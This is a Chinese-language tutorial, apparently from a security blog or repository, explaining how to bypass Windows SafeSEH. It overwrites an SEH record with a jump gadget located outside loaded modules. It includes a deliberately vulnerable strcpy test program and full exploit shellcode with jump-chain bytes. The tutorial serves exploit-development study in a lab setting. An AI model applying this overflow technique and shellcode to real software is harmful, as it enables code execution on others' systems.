




# Bypass SafeSEH through jumping into outside memory of loaded modules

**Author：wnagzihxain
Mail：tudouboom@163.com**

当异常处理函数在加载模块外时，SafeSEH是直接校验通过的

所以如果我们能找到一个跳转指令位于加载模块外，就可以绕过SafeSEH的校验
 
```
#include <stdio.h>
#include <string.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";

DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}

void test(char* input)
{
	char str[200];
	strcpy(str, input);	
    int zero = 0;
	__try
	{
	    zero = 1/zero;
	}
	__except(MyException())
	{}
}

int main()
{
	__asm int 3
	test(shellcode);
	return 0;
}
```

VS2005，生成Release版本，禁用优化

首先用插件来找找有没有，插件是`OllyFindAddr`



选择`call [ebp+n]`，标注出来的就是加载模块之外的跳转地址



然后单步走完strcpy



观察此时栈布局，根据你的系统计算shellcode长度，在SEH防止跳板，然后调用异常的时候执行我们覆盖的跳板，接下来就会跳到nextSEH

nextSEH放置一个小跳转，往回跳10字节，在第二次跳转的位置放置一个大跳转，跳回shellcode起始地址

接下来解释下为什么这么放置指令：

首先我们的跳板存在`00`截断符，所以shellcode是不能放置在后面了，所以只能放置在前面，那么放置在前面我们只能控制它执行nextSEH

所以nextSEH处的指令至关重要，它要跳到shellcode的起始位置但是它只有4字节无法完成那么大的跳转

我们让它完成一个小跳转，跳10字节回去（这里是自己2字节加上8字节），然后在跳转回去的地址放置一个大跳转，那个大跳转就是跳回shellcode起始地址的关键

修改的代码是这样的
``` 
#include <stdio.h>
#include <string.h>
#include <windows.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xE9\x2B\xFF\xFF\xFF\x90\x90\x90"// machine code of far jump and \x90
"\xEB\xF6\x90\x90"// machine code of short jump and \x90
"\x0B\x0B\x28\x00"// address of call [ebp+30] in outside memory
;

DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}

void test(char* input)
{
	char str[200];
	strcpy(str, input);	
    int zero = 0;
	__try
	{
	    zero = 1/zero;
	}
	__except(MyException())
	{}
}

int main()
{
	//__asm int 3
	test(shellcode);
	return 0;
}
```

来看看效果

